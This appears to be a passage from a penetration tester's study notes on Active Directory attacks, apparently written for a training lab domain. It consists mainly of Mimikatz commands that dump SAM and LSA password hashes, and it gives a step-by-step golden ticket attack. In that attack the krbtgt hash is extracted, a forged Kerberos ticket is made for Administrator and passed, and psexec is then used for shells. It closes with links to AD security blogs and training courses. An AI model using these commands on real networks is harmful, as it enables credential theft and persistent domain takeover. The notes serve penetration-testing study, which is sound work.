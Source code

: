 ```powershell
lsadump::sam #try to dump SAM
lsadump::sam /patch

lsadump::lsa /patch #usernames and NTML hashes >> can crack hashes offline
```

### Golden Ticket Attacks
- golden tickets establish persistence
```powershell
cd Downloads
mimikatz.exe
#>>>>first thing to always do
privilege::debug #look for privilege 20 OK

lsadump::lsa /inject /name:krbtgt #pull down the TGT account
#copy and save SID of domain, NTLM of TGT account

#generate golden ticket then pass the ticket
kerberos::golden /User:Administrator /domain:marvel.local /sid:<SID number> /krbtgt:<tgt acc hash> /id:500 /ptt #user can be anything

#from here can use psexec to get shells
``` 

# Additional AD Resources
- Active Directory Security Blog: [https://adsecurity.org/](https://adsecurity.org/)
- Harmj0y Blog: [http://blog.harmj0y.net/](http://blog.harmj0y.net/)
- Pentester Academy Active Directory: [https://www.pentesteracademy.com/activedirectorylab](https://www.pentesteracademy.com/activedirectorylab
- Pentester Academy Red Team Labs: [https://www.pentesteracademy.com/redteamlab](https://www.pentesteracademy.com/redteamlab)
- eLS PTX: [https://elearnsecurity.com/product/ecptx-certification/](https://elearnsecurity.com/product/ecptx-certification/)

